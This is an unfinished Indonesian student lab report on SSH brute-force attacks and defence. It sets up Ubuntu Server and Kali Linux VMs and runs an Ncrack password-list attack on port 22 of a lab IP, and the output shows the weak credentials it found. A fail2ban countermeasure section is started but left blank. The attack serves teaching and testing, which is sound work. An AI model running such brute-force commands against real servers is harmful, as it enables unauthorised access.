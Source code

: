 # Laporan 1

## Pendahuluan

### Latar Belakang

Banyak sekali di era yang serba teknologi ini kejahatan semakin ramai. Jaman sekarang segala sesuatu bisa diakses dari tempat manapun negara manapun. Bahkan kita bisa me-*remote* komputer dari negara lain menggunakan *openSSH*. Kemudahan ini dimanfaatkan oleh para *Penetration Developer* untuk me-*remote* komputer orang lain lewar port yang terbuka menggunakan port SSH. Teknik ini terkenal dengan nama SSH brute force attack. Software yang peling terkenal untuk melakukan SSH brute force attack antara lain Hydra, Ncrack, dan medusa.

### Rumusan Masalah

* Bagaimana cara menggunakan software openSSH?
* Bagaimana cara hacker mencoba untuk memenetrasi jaringan yang terbuka port SSH-nya?
* Bagaimana cara mengatasai SSH brute fore attack?

### Tujuan Penulisan

* Untuk mengetahui cara menggunakan software openSSH.
* Untuk menguji penetrasi jaringan yang terbuka port SSH-nya.
* Untuk mengetahui cara mengatasai SSH brute fore attack.

## Dasar Teori

### OS Ubuntu Server

Ubuntu Server adalah system operasi turunan dari Linux Ubuntu yang di desain khusus dengan kernel yang telah dikustomisasi untuk bekerja sebagai system operasi server. Kernel Linux Ubuntu Server di desain khusus untuk bisa bekerja dengan lebih dari satu proses (multiprocessor) dengan dukungan NUMA pada 100Hz internal timer frequency dan menggunakan pennjadwalan deadline I/O.


### Software openSSH

SSH sebagai tool untuk melakukan konektivitas pada jaringan. Jika anda menggunakan telnet, rlogin, dan ftp mungkin tanpa anda sadari bahwa password yang terkirim tanpa melalui enkripsi. Sedangkan dengan menggunakan OpenSSH melakukan enkripsi kepada semua trafik (termasuk password) secara efektif untuk menghindari hal-hal yang tidak diinginkan. Secara tambahan, OpenSSH memiliki tunneling yang aman dan beberapa metode autentikasi, dan juga mendukung semua versi protokol SSH.

### Software Ncrack

Ncrack adalah alat otentikasi jaringan kecepatan tinggi. Dibuat untuk membantu perusahaan mengamankan jaringan mereka secara proaktif dengan menguji semua host dan perangkat untuk password yang kurang bagus. Keamanan juga bergantung pada Ncrack ketika mengaudit klien mereka. Ncrack dirancang menggunakan pendekatan modular, sintaks baris perintah mirip dengan Nmap dan mesin dinamis yang dapat beradaptasi berdasarkan feedback jaringan. Hal ini memungkinkan kecepatan tinggi, juga audit skala besar dari beberapa host.

## Uji Penetrasi 1

### Instalasi Ubuntu Server di vmware

* Pertama download Ubuntu Server di http://www.ubuntu.com/download/server
* Buka vmware kemudian ctrl+N untuk membuat virtual mechine baru. pilih image ubuntu server yang baru di download.
* ikuti perintah-perintah yang ada di vmware sampai instalisasi selesai

### Instalasi kali linux di vmware

* Pertama download image iso kali linux di http://cdimage.kali.org/kali-2016.2/
* Buka vmware kemudian ctrl+N untuk membuat virtual mechine baru. pilih image ubuntu server yang baru di download.
* ikuti perintah-perintah yang ada di vmware sampai instalisasi selesai

### Instalasi software openSSH

* Untuk mengintall openSSH di OS Ubuntu server ketik 

```
~$ sudo apt-get update && apt-get install openssh-server
```

* Masukkan password server. kemudian klik enter.
* Tunggu sampai proses download dan instalisasi selesai
* Kemudian jalankan *openssh-server*

```
~$ sudo systemctl start sshd.service
```


### Uji penetrasi menggunakan Ncrack

* Di OS kali linux sudah tersedia tool ncrack untuk memenetrasi ssh server
* syntax ncrack adalah

```
~$ ncrack [Option] (target and service specification)
```

* Untuk melakukan uji penetrasi pada server uji coba, kita perlu mengetahui IPnya. di sini sudah diketahui IP server target adalah 192.168.145.132.

```
~$ ncrack -p 22 -user ggg -P password-lib-list.txt 192.168.145.132

Starting Ncrack 0.4ALPHA ( http://ncrack.org ) at 2016-07-01 23:21 WIB

Discovered credentials for ssh on 192.168.145.132 22/tcp:
192.168.145.132 22/tcp ss: 'ggg' 'ggg'

Ncrack done:1 service scanner in 24.14 seconds.

Ncrack finished.
```

* dari penetrasi di atas diketahui bahwa server dengan nama 'ggg' memiliki password 'ggg'



## Uji Penetrasi 2

### Konfigurasi sofware Fail2ban

* Pertama intall fail2ban di os ubuntu server

```
~$ sudo apt-get install fail2ban
```

* Tunggu sampai proses download dan instalisasi selesai
* Kemudian jalankan *fail2ban*

```
~$ sudo systemctl start fail2ban.service
```

### Konfigurasi openSSH

* -
* -

### Uji penetrasi menggunakan Ncrack

* -
* -

## Kesimpulan dan Saran

-
